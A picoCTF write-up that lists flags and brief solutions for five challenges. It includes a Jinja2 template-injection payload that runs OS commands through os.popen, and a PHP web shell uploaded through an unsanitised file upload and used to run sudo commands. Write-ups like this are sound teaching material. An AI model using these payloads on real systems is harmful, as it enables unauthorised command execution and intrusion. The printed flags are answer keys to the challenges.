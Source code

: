 # picoCTF

## Fantasy CTF: 
picoCTF{m1113n1um_3d1710n_76b680a5}  </br>
Nc in using the given command <code>nc verbal-sleep.picoctf.net 63159</code>. Pressed enter when prompted and answered the questions correctly. Flag was given at the end when all questions were answered

## Cookie monster secret recipe: 
picoCTF{c00k1e_m0nster_l0ves_c00kies_98D0603F} </br>
Went to the website, and tried to log in using random log ins and passwords. The next page said to check the cookies, so I used inspect element and went to storage to find the cookies. There was a value called secret_recipe cGljb0NURntjMDBrMWVfbTBuc3Rlcl9sMHZlc19jMDBraWVzXzk4RDA2MDNGfQ%3D%3D. It was encoded in base64. Decoding gave the flag.

## head-dump:
picoCTF{Pat!3nt_15_Th3_K3y_ad7ea5ae} </br>
Went to the website, and only one hastag led to another part of the website, which was the api documentation. It led to Swagger, which had an endpoint called head dump. Executing it generated a file, and searching through it had the flag. 

## SSTI1
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_eb0c6390} </br>
Solve using server side template injection. First, locate the flag by submitting `{{config.__class__.__init__.__globals__['os'].popen('ls').read() }}` to the input field. There, you will find a file named flag. This file can be read by inputting `{{config.__class__.__init__.__globals__['os'].popen('cat flag').read() }}`. Within this file is the flag to the CTF.

## n0s4n1ty 1
picoCTF{wh47_c4n_u_d0_wPHP_8ca28f94} </br>
Files uploaded to the website are not sanitized; solve using file injection. First, upload `shell.php` (shell.php content found in codeblock below). After the file is uploaded, we can execute commands using the website link and a cmd parameter. `http://standard-pizzas.picoctf.net:52699/uploads/shell.php?cmd=sudo%20ls%20/root` will show that there is a `flag.txt` file in the /root directory. The content of the file, the flag, can be read using `http://standard-pizzas.picoctf.net:52699/uploads/shell.php?cmd=sudo%20cat%20/root/flag.txt`. 
```php shell.php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```
